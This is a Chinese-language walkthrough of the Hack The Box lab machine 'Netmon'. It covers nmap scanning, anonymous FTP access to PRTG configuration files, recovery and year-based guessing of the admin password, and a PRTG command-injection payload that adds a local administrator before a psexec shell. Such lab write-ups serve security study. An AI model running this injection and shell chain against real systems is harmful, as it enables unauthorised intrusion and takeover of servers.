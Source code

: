 # Netmon

1.  nmap 扫描

    ```shell
    # 对 TCP 端口进行扫描
    nmap -sT -p- --min-rate 1000  -Pn 10.10.10.152
    	PORT      STATE SERVICE
        21/tcp    open  ftp
        135/tcp   open  msrpc
        445/tcp   open  microsoft-ds  # SMB 服务
        5985/tcp  open  wsman
        47001/tcp open  winrm
        49665/tcp open  unknown
        49666/tcp open  unknown
        49667/tcp open  unknown
        49668/tcp open  unknown
        49669/tcp open  unknown

    # 对 UDP 端口扫描，因为对结果无用处就不粘贴
    sudo nmap -sU -p- --min-rate 1000 -Pn 10.10.10.152

    # 对探测到的端口进行扫描
    nmap -sTCV -p 21 135 445 5985 47001 49665 49666 49667 49668 49669 --min-rate 1000 10.10.10.152
    	PORT   STATE SERVICE VERSION
        21/tcp open  ftp     Microsoft ftpd
        | ftp-syst: 
        |_  SYST: Windows_NT
        | ftp-anon: Anonymous FTP login allowed (FTP code 230)  # 允许匿名者登陆
        | 02-02-19  11:18PM                 1024 .rnd
        | 02-25-19  09:15PM       <DIR>          inetpub
        | 07-16-16  08:18AM       <DIR>          PerfLogs
        | 02-25-19  09:56PM       <DIR>          Program Files
        | 02-02-19  11:28PM       <DIR>          Program Files (x86)
        | 02-03-19  07:08AM       <DIR>          Users
        |_02-25-19  10:49PM       <DIR>          Windows
        Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    ```
2.  使用网页登陆，可以看到相关的可以访问

    ```shell
    # PRTG Network Monitor (NETMON) # 服务名称--网关
    # 使用默认密码登陆失败，看 nmap 扫描结果
    ```
3. 经过 nmap 扫描，我们发现 ftp 服务可以使用 匿名登陆
4. 我们可以在 /Users/All Users/Paessler/PRTG Network Monitor 这里看到关于 这个服务的一些配置文件，`为什么在这里，我也不清楚，可能是对服务名称的搜索吧`
5.  在这里我们下载其中的一些内容

    ```shell
    PRTG Configuration.dat
    PRTG Configuration.old
    PRTG Configuration.old.dat
    ```
6.  我们最终可以在 PRTG Configuration.old.dat 找到相关的账号密码

    ```shell
    <dbpassword>
        <!-- User: prtgadmin -->
        PrTg@dmin2018
    </dbpassword>
    ```
7. 进行登陆可以发现登陆失败，对密码进行猜解可以得知，这个密码唯一可以推测的就是后面的年份进行变化登陆,最终可以得到 密码为 PrTg@dmin2019
8. 在网上搜索这个网关应用的漏洞，可以发现这篇文章： [跳转链接](https://www.codewatch.org/blog/?p=453)
9.  从这篇文章中，我们可以得到一些利用思路

    ```shell
    # 使用下方命令，这个命令会添加一个用户,并添加到 administrators
    test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add

    # 枚举 smb 服务
    smbmap -H 10.10.10.152  -u anon -p "p3nT3st!"

    # 获取 shell
    psexec.py 'anon:p3nT3st!@10.10.10.152'
    ```
